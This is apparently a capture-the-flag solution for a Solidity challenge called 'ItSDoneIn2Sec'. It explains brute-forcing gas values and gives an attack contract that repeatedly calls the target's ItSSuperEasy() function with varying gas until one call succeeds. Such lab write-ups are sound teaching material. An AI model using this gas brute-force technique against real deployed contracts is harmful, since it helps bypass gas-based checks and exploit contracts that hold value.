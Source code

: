 # ItSDoneIn2Sec

## Solution

To validate these challenges, there are many possibilities the first one is by making a brute force, so testing many values of gas or calculating the consumption of gas of the contract until the condition of the gas left using the debugging of the contract.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/hardChalls/ItSDoneIn2Sec.sol";

contract ItSDoneIn2SecAttack {
    
    ItSDoneIn2Sec originalContract;
    
    constructor(address payable _originalContract) public {
        originalContract =ItSDoneIn2Sec(_originalContract);
    }
    
    function exploit() public {
        for (uint256 i = 0; i < 500; i++) {
            (bool ret, bytes memory data) = address(originalContract).call.gas(i + 984*10)(abi.encodeWithSignature('ItSSuperEasy()'));
            if (ret)
                break;
        }
    }
    
}
```
